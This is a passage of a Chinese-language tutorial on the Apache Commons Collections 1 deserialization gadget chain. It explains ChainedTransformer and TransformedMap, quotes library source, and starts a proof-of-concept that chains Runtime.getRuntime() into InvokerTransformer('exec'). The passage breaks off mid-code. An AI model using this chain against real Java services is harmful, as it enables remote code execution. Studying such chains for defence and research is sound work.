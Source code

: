 `ChainedTransformer`类利用之前构造方法传入的`transformers`数组通过循环的方式调用每个元素的`trandsform`方法，将得到的结果传入下一次循环的`transform`方法中。

那么这样我们可以利用`ChainedTransformer`将`ConstantTransformer`和`InvokerTransformer`的`transform`方法串起来。通过`ConstantTransformer`返回某个类，交给`InvokerTransformer`去调用类中的某个方法。



## demo 1

链条已经有了，就差让链条走起来了，以下POC都是基于P牛代码上修改的。

```
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "test");
```

看一下`TrandsformedMap`里的部分源码：

```
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) `{`
        return new TransformedMap(map, keyTransformer, valueTransformer);
    `}`

protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) `{`
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
`}`

protected Object transformKey(Object object) `{`
    return this.keyTransformer == null ? object : this.keyTransformer.transform(object);
`}`

protected Object transformValue(Object object) `{`
    return this.valueTransformer == null ? object : this.valueTransformer.transform(object);
`}`

public Object put(Object key, Object value) `{`
    key = this.transformKey(key);
    value = this.transformValue(value);
    return this.getMap().put(key, value);
`}`
```

`TransformedMap`的`decorate`方法根据传入的参数重新实例化一个`TransformedMap`对象，再看`put`方法的源码，不管是`key`还是`value`都会间接调用`transform`方法，而这里的`this.valueTransformer`也就是`transformerChain`，从而启动整个链子。

第一版的 POC 如下：

```
package ysoserial.CommonsCollections1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class demo `{`
    public static void main(String[] args) `{`
        Transformer[] transformers = new Transformer[] `{`
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]`{`String.class`}`,
```